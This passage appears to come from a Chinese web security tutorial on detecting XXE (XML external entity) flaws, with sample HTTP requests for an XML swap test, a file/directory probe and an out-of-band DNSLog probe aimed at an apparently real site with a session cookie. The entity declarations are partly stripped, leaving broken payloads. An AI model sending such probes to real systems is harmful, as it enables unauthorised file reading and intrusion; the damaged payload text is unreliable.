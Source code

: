 可以更改为下面的请求包：

```
POST /action HTTP/1.0
Content-Type: application/xml
Content-Length: 52

&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;foo&gt;bar&lt;/foo&gt;

```

如果两个请求包的返回包一样那么就存在XXE漏洞

#### 1.2.3、目录

输入任意文件或目录，查看返回包，如返回500“没有那个文件或目录”，或者返回200“文件内容”则存在xxe漏洞。

```
win
&lt;?xml version="1.0" encoding="UTF-8"?&gt;

 
]&gt; 

linux
&lt;?xml version="1.0" encoding="UTF-8"?&gt;

 
]&gt; 

```

#### 1.2.4、DNSLOG

也可以使用DNSLOG进行测试，使用如下payload，如果dnslog平台能接受到信息，则证明存在xxe漏洞

[DNSLog Platform](http://www.dnslog.cn/)

```
POST /dorado/view-service HTTP/1.1
Host: www.nxzhaj.com:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
content-type: text/xml
Content-Length: 133
Connection: close
Referer: http://www.nxzhaj.com:8080/
Cookie: JSESSIONID1=6061F2C1A054E8B25D732A1578F6D443

&lt;?xml version="1.0" encoding="utf-8" ?&gt;

]&gt;
&lt;root&gt;&amp;xxe;&lt;/root&gt;

```
